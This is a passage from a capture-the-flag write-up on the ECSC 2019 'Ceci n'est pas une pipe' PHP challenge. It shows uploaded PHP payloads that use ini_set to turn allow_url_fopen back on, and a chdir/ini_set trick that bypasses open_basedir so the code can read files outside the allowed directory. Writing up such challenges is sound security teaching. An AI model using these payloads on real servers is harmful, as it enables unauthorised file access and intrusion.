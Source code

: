 Some really useful information there:

* We know the application working directory is the classic `/var/www/html`
* We could not use `file_get_contents` because the values for `allow_url_fopen` are `OFF`
* We could not use any system calls because the functions are in `disable_functions`
* There's some `prepend.php` file loaded from `/usr/share/php/chall/prepend.php`
  - Interesting, I did not even know about that [prepend feature](https://www.php.net/manual/fr/ini.core.php#ini.auto-prepend-file) in PHP!

### Trying more LFI with this knowledge

Maybe we can override `allow_url_fopen` settings with some `ini_set()`?

```php
<?php
    echo "DOTAN3 - START";
    ini_set('allow_url_fopen', 1);
    echo file_get_contents('sample.php');
    echo "DOTAN3 - END";
?>
```

Upload again and display the uploaded file:

![ECSC 2019 - Ceci n'est pas une pipe - Bypassing allow_url_fopen](/img/ecsc-2019-ceci-nest-pas-une-pipe-bypass-allow_url_fopen.png)

We're able to see the contents of the file itself, it works!

Now let's try to do things for files outside of `open_basedir`...

### Bypassing open_basedir restriction

I remembered a while back seeing on twitter a way to bypass `open_basedir` restrictions so I went and searched for it:

![ECSC 2019 - Ceci n'est pas une pipe - Searching for open_basedir bypass on twitter](/img/ecsc-2019-ceci-nest-pas-une-pipe-searching-for-open_basedir-bypass-on-twitter.png)

Source: https://twitter.com/edgarboda/status/1113839230608797696

Let's try it!

```php
<?php
    echo "DOTAN3 - START";
    ini_set('allow_url_fopen', 1);
    mkdir('tmp');
    chdir('tmp');
    ini_set('open_basedir', '..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir', '/');
    echo file_get_contents('/var/www/html/index.php');
    echo "DOTAN3 - END";
?>
```
